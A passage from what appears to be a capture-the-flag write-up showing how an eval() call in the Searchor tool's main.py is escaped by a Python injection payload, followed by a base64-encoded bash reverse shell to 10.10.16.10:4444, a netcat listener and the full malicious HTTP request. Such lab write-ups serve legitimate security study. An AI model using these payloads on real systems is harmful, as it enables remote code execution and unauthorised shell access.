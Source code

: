 This version of Searchor previously used the `eval()` function in the ***main.py*** file, which we can leverage to **execute commands** in the system:
![](/assets/Busqueda/4.png)
<br />
<br />
<br />

To escape the function and execute commands, we can run a payload like this:

```python
',__import__('os').system('commands')) #
```

<br />

This payload would make the query look like this:

```python
url = eval(
            Engine.Google.search('',__import__('os').system('commands')) #', copy_url={copy}, open_web={open})"
                )
```

<br />

As we can see, we are able to escape the function, we just now have to craft a reverse shell payload and launch it, for that I'm going to use a **base64 payload**:
```bash
echo -n "bash  -c 'bash -i >& /dev/tcp/10.10.16.10/4444 0>&1'" | base64
rlwrap nc -nlvp 4444
```

<br />

The HTTP request would look like this:
```HTTP
engine=Google&query=',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvNDQ0NCAwPiYxJw==|base64 -d|bash -i')) #
```
